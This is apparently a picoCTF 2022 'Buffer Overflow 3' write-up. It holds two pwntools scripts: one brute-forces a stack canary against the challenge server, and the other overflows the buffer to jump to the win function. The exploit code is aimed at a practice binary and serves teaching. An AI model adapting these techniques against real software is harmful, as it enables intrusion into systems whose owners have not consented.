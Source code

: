 ```yaml
---
name: Buffer Overflow 3 (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Buffer Overflow 3 (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Buffer Overflow 3

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=1676 "Pico CTF 2022: Buffer Overflow 3")

## Description

> Do you think you can bypass the protection and get the flag?

## Solution

#### canary_brute.py

{% code overflow="wrap" %}
```py
from pwn import *
import string

elf = context.binary = ELF('./vuln', checksec=False)
context.log_level = 'critical'

canary = ""

while len(canary) < 4:
    not_found = True
    while not_found:
        for i in string.printable:
            # p = elf.process()
            p = remote('saturn.picoctf.net', 63681)
            padding = 64

            test = canary + i
            print(test)
            payload = b'A' * padding
            payload += f'{test}'.encode()

            p.sendlineafter(b'>', str(len(payload)).encode())

            p.sendlineafter(b'>', payload)

            if b'Smashing' in p.recvline():
                p.close()
                continue
            else:
                canary += i
                not_found = False
                p.close()
                break
```
{% endcode %}

#### exploit.py

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x8049534
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 64

payload = flat(
    b'A' * padding,
    b'BiRd',  # Canary is here
    b'A' * 16,  # Saved RBP + int
    elf.symbols.win
)

io.sendlineafter(b'>', str(len(payload)).encode())

# Send the payload
io.sendlineafter(b'>', payload)

# Receive the flag
io.recvuntil(b'?')
io.interactive()
```
{% endcode %}
